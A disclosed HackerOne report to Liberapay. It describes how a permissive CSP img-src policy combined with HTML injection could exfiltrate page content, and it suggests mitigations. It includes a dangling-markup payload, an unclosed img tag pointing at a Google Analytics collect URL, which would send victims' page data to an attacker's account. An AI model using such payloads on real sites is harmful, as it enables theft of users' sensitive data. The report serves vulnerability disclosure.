 # Current CSP Policy chained with HTML Injection can lead to Data Exfiltration

## Report Details
- **Report ID**: 360864
- **URL**: https://hackerone.com/reports/360864
- **State**: Closed
- **Severity**: none
- **Submitted**: 2018-06-01T17:25:20.828Z
- **Disclosed**: 2018-06-04T11:52:36.945Z

## Reporter
- **Username**: oroborus
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: liberapay

## Vulnerability Information
Hi Team,

#### Summary
While reviewing the CSP headers for en.liberapay.com i noticed that img-src has a source set to * which means any source on the internet. The following is found in the current CSP Header config.

```img-src * blob: data:```

### Description:
If the site is vulnerable to HTML Injection its possible to use sources like www.google-analytics.com and inject a malicious html like the below

```html
<img src='https://www.google-analytics.com/collect?v=1&tid=UA-55300588-1&cid=3121525717&t=event&ec=email&el=2111515817&cs=newsletter&cm=email&cn=062413&cm1=1&ea=
```
If you notice the injected img src attribute i dint close the tag, so eventually a tag with an unclosed quote will capture all output up to the next matching quote. This could include security sensitive content on pages. If a victim opens any such injected page, his information from the html response will be send to attackers google-analytics account as a get request due to the injected <img src> tag. Attacker can login into his analytics account and review all log event actions and he will have the html responses of all the victims visited.

### Mitigation:
If you feel that the site doesn't need to load images from google-analytics, remove the google-analytics from the img-src attribute of the CSP. Alternatively if you feel you need it then It is recommended to remove google-analytics from the img-src attribute and use it on connect-src and use XHR based approach - (https://developers.google.com/analytics/devguides/collection/analyticsjs/sending-hits#specifying_different_transport_mechanisms)


### References:
Github  https://githubengineering.com/githubs-post-csp-journey
Hackerone  https://hackerone.com/reports/199779
Detectify (good explanation)  https://labs.detectify.com/2018/01/19/google-analytics-data-extraction

## Impact

This CSP bypass vector can be used to leverage attacks like sensitive data-exfiltration , cross site script include resulting in malicious java-script execution etc.

Regards,
Nthack

## Attachments
No attachments
